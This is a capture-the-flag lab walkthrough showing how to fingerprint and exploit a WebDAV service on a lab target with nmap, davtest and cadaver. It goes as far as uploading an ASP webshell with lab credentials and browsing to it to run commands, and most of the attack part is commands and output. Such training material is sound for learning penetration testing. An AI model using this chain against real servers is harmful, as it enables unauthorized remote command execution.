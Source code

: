 

A Kali GUI machine and a vulnerable target machine are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the service using the tools available on the Kali machine and exploit using Davtest and Cadaver tools.

[Davtest](https://code.google.com/archive/p/davtest/):

- Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

[cadaver](https://github.com/grimneko/cadaver):

- Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.



**Objective:** Exploit the service and retrieve the flag!

The following username and password may be used to access the service:

| Username | Password | | bob | password_123321 |


#### Exploiting using Davtest and Cadaver
```
nmap -p- -v -T 4 10.4.16.50
```

Scan for web vulnerabilities with nmap script enum
```
nmap --script http-enum.nse 10.4.16.50

80/tcp   open  http
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)

```

Scan url with davtest tool, 
```
davtest -url 10.4.16.50

OPEN		FAIL:	10.4.16.50	Server response: Could not access 10.4.16.50/: Unauthorized
```

Use credentials to test injecting malicious code into the web browser
The program attempts to upload multiple file types for testing
```
davtest -auth bob:password_123321 -url http://10.4.16.50/webdav

PUT	txt	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.txt
PUT	pl	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.pl
PUT	cfm	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.cfm
PUT	php	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.php
PUT	html	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.html
PUT	aspx	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.aspx
PUT	shtml	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.shtml
PUT	jsp	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.jsp
PUT	asp	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.asp
PUT	jhtml	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.jhtml
PUT	cgi	SUCCEED:	http://10.4.16.50/webdav/DavTestDir_USzOu3EpPY/davtest_USzOu3EpPY.cgi

```

Login into the webdav application via cadaver 
```
cadaver http://10.4.16.50/webdav
username: bob
password: password_123321
```

Upload malicious shell to the website
```
put /usr/share/webshells/asp/webshell.asp 
```

In the web browser navigate to the malicious shell to run commands
```
http://10.4.16.50/webdav/webshell.asp
username:password
```
